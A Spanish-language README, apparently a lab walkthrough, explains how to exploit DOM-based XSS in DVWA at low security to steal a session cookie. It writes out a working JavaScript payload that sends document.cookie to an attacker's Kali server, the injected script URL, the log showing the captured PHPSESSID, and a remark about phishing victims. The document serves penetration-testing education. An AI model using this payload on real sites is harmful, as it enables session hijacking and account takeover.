# Explotación XSS Nivel Bajo para Robo de Cookies

Este repositorio contiene los archivos y la descripción del proceso para realizar una explotación Cross-Site Scripting (XSS) de nivel bajo con el objetivo de robar la cookie de sesión de un usuario en una aplicación web vulnerable (como DVWA configurada en nivel de seguridad bajo).

**Advertencia:** Esta información se proporciona únicamente con fines educativos y de prueba de penetración en entornos controlados. El uso de estas técnicas sin el consentimiento adecuado es ilegal y éticamente inaceptable.

## Herramientas Necesarias

* Un navegador web.
* La dirección IP de tu máquina Kali Linux (o la máquina donde se ejecutará el servidor web temporal).
* Un servidor web temporal ejecutándose en Kali Linux.

## Pasos para la Explotación

1.  **Levantar un Servidor Web Temporal en Kali Linux:**

    Abre una terminal en tu máquina Kali Linux y ejecuta el siguiente comando para iniciar un servidor web simple en el puerto 9999:

    ```bash
    python -m SimpleHTTPServer 9999
    ```

    (Para Python 3, el comando sería:)

    ```bash
    python3 -m http.server 9999
    ```

    Mantén esta terminal abierta para observar las peticiones entrantes.

2.  **Crear el Archivo `a.js` (Payload Remoto):**

    Crea un nuevo archivo de texto llamado `a.js` en el directorio donde iniciaste el servidor web temporal. Pega el siguiente código JavaScript dentro del archivo, **reemplazando `[tu_IP_de_Kali]` con la dirección IP real de tu máquina Kali Linux**:

    ```javascript
    function getimg() {
      var img = document.createElement('img');
      img.src = 'http://[tu_IP_de_Kali]:9999/' + document.cookie;
      document.body.appendChild(img);
    }

    getimg();
    ```

    Guarda los cambios en el archivo `a.js`.

3.  **Construir la URL Maliciosa:**

    Construye la URL que contiene el exploit XSS. Utiliza la siguiente estructura, **reemplazando `[tu_IP_de_Kali]` con la dirección IP de tu Kali Linux**:

    ```
    http://dvwa/dvwa/vulnerabilities/xss_d/?default=<script src="http://[tu_IP_de_Kali]:9999/a.js"></script>
    ```

    **Nota:** Asumimos que la aplicación web vulnerable es DVWA y la vulnerabilidad XSS se encuentra en la página `xss_d` con el parámetro `default`. Ajusta la URL según la aplicación y la vulnerabilidad específica.

4.  **Enviar la URL Maliciosa a la Víctima:**

    En un escenario real, esta URL se enviaría a la víctima mediante técnicas de ingeniería social (phishing, enlaces maliciosos, etc.). Para probarlo en tu entorno DVWA, simplemente pega la URL construida en la barra de direcciones de tu navegador mientras estás logueado en DVWA y presiona Enter.

5.  **Verificar los Logs del Servidor Web Temporal:**

    Regresa a la terminal donde está corriendo el servidor web temporal en Kali Linux. Deberías ver una o varias peticiones registradas. Busca una línea similar a la siguiente (la información de la cookie variará):

    ```
    127.0.0.1 - - [DD/Mon/YYYY HH:MM:SS] "GET /PHPSESSID=alguna_sesion; security=low HTTP/1.1" 404 -
    ```

    La parte importante es `PHPSESSID=alguna_sesion; security=low`. Esta es la cookie de sesión del usuario víctima que ha sido robada. El código de respuesta `404` es esperado porque estamos solicitando una "imagen" cuyo nombre es la cookie, y ese archivo no existe en nuestro servidor. Lo crucial es que la petición con la cookie llegó al servidor.

![imagen vulnerabilidad XSS Dom 1](../../assets/XSSDomLow01.png)

## Explicación del Proceso

1.  Cuando la víctima accede a la URL maliciosa, el navegador interpreta el código HTML.
2.  La etiqueta `<script src="...">` fuerza al navegador a solicitar el archivo `a.js` desde el servidor web temporal en Kali Linux.
3.  El servidor web temporal sirve el contenido del archivo `a.js`.
4.  El código JavaScript dentro de `a.js` se ejecuta en el navegador de la víctima.
5.  La función `getimg()` crea un nuevo elemento `<img>`.
6.  La propiedad `src` de esta imagen se establece a una URL que apunta al servidor web temporal en Kali Linux, y la ruta de la "imagen" es el valor de la cookie del documento (`document.cookie`).
7.  El navegador de la víctima intenta cargar esta "imagen" desde el servidor.
8.  La petición HTTP enviada al servidor web temporal incluye la cookie de la víctima en la URL de la petición GET.
9.  El servidor web temporal registra esta petición en sus logs, revelando la cookie robada al atacante.

## Contribución

Las contribuciones a este repositorio con fines educativos y de mejora de la documentación son bienvenidas. Por favor, asegúrate de que cualquier contribución se realice de manera ética y responsable.

## Licencia

Este proyecto se distribuye bajo la Licencia MIT. Consulta el archivo `LICENSE` para obtener más detalles.